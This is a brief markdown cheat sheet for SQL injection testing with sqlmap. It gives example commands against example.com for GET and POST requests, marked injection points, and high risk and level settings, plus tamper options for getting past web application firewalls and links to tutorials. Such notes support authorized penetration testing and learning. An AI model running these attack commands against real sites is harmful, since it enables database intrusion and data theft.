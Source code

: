 # SQLi

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```


## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
|https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
